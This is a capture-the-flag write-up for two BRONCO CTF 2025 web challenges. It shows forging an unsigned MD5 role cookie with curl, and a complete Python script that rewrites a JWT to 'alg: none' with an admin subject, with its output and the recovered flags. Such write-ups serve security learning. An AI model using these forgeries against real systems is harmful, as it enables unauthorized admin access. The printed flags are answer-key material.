 --------------

### CTF-: BRONCO CTF 2025

--------------

![image](https://github.com/user-attachments/assets/701bde62-84df-4985-9561-4d9d69f1434e)

---------------

### CHALLENGES-:

----------------

- Web-:
 - Grandma's Secret Recipe
 - Mika's Autograph

----------------

### Grandma's Secret Recipe

-----------------

![image](https://github.com/user-attachments/assets/2ed8ef70-1f2c-4215-bed7-e6ca8c655f06)

------------------

- The site has 3 endpoints as seen in the image below.We are logged in as `grandma's helper`.

![image](https://github.com/user-attachments/assets/7348f296-603a-4fd7-aa23-f1dfd254c47b)

- I ran `curl`  with `-v` for a verbose output which will include request and response headers.I noticed the role header and checksum containing an hash.

![image](https://github.com/user-attachments/assets/08014ebd-b0dd-41b8-9d10-2e62b239b503)

- I computed the hash for the value `kitchen helper` in md5 and got the same hash.

![image](https://github.com/user-attachments/assets/729da742-65f6-4a4c-bf26-c07ad0ffac0e)

- In order to get the flag, we need to create an hash with the value `grandma` and pass it to the route `/grandma` to get the flag

```bash
❯ curl https://grandma.web.broncoctf.xyz/grandma -H "Cookie: role=grandma;checksum=a5d19cdd5fd1a8f664c0ee2b5e293167"

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Grandma's Bakery</title>
    <style>
        body { font-family: 'Comic Sans MS', cursive, sans-serif; background-color: #ffe5b4; text-align: center; }
        .container { margin-top: 50px; padding: 20px; background: #fff8dc; border-radius: 10px; display: inline-block; box-shadow: 0px 0px 10px rgba(0, 0, 0, 0.1); }
        .flag { font-weight: bold; color: green; }
        .btn { display: inline-block; padding: 10px 20px; margin: 10px; background-color: #d2691e; color: white; text-decoration: none; border-radius: 5px; }
        h1 { color: #8b0000; }
    </style>
</head>
<body>
    <div class="container">
        <h1>Welcome to Grandma's Bakery!</h1>
        <p>Grandma&#39;s Secret Recipe: </p>
        <p class="flag">Flag: bronco{grandma-makes-b3tter-cookies-than-girl-scouts-and-i-w1ll-fight-you-over-th@t-fact}</p>
        <br>
        <a class="btn" href="/login">Login</a>
        <a class="btn" href="/logout">Logout</a>
        <a class="btn" href="/grandma">Grandma's Pantry</a>
    </div>
</body>
</html>%
```

- Flag-: ```bronco{grandma-makes-b3tter-cookies-than-girl-scouts-and-i-w1ll-fight-you-over-th@t-fact}```

-------------

### Miku's Autograph

------------

![image](https://github.com/user-attachments/assets/6c602426-f82b-4e66-870f-ec52a644c878)

------------

- This challenge is based on `jwt exploitation`.If an attacker sets the base64 encoded header key `alg` to `none`, the server takes the jwt as having no algorithm and decodes it freely without the secret key.
- I wrote a script to automate the process.The script picks the token from the `get_token` endpoint.It is passed to the `tweakTokem` function which decodes the jwt header and set the `algorithm` or `alg` to `none`.The `sub` key in the base64_decoded payload which represents the `username` and set it to `miku_admin`.Lastly, the newly created `jwt_token` is passed to the `/login` which grants the flag.

```python3
#! /usr/bin/env python3
from ten import *
from tenlib.transform import *
from dataclasses import *

set_message_formatter("Oldschool")
@arg("-h","--host")
@entry
@dataclass
class Exploit:
      host: str
      @staticmethod
      def tweakToken(token: str) -> str:
          header,payload,signature =  token.split(".")
          base64_decoded_header = json.decode(base64.decode(header)) 
          base64_decoded_payload = json.decode(base64.decode(payload))
          #Chaning alg to none
          base64_decoded_header["alg"] =  "none"
          base64_decoded_payload["sub"] = "miku_admin"
          header = base64.encode(json.encode(base64_decoded_header)).replace("=","")
          payload = base64.encode(json.encode(base64_decoded_payload)).replace("=","")
          cookie =  f"{header}.{payload}.{signature}"
          msg_info(f"Tweaked Cookie is : {cookie}")
          return cookie

      def run(self):
          session = ScopedSession(self.host)
          #Retrieving the token
          msg_info("Retreiving the token....")
          token = json.decode(session.get("/get_token").text)["your_token"]
          cookie = Exploit.tweakToken(token)
          data  =  {"magic_token": cookie}
          flag =  session.post("/login",data=data)
          msg_info(flag.text)

if __name__ == "__main__":
   Exploit()
```

- Flag-:```bronco{miku_miku_beaaaaaaaaaaaaaaaaaam!}```

```bash
❯ ./solve.py https://miku.web.broncoctf.xyz
[*] Retreiving the token....
[*] Tweaked Cookie is : 
eyJhbGciOiAibm9uZSIsICJ0eXAiOiAiSldUIn0.eyJzdWIiOiAibWlrdV9hZG1pbiIsICJleHAiOiAxNzM5NjkzNTMwfQ.iCWM6lasTvp87UENXJLecwpZI37AqRTN-zROg8sOE-M
[*] <h2>Welcome, Miku Admin! Here's your flag: bronco{miku_miku_beaaaaaaaaaaaaaaaaaam!}</h2>
```





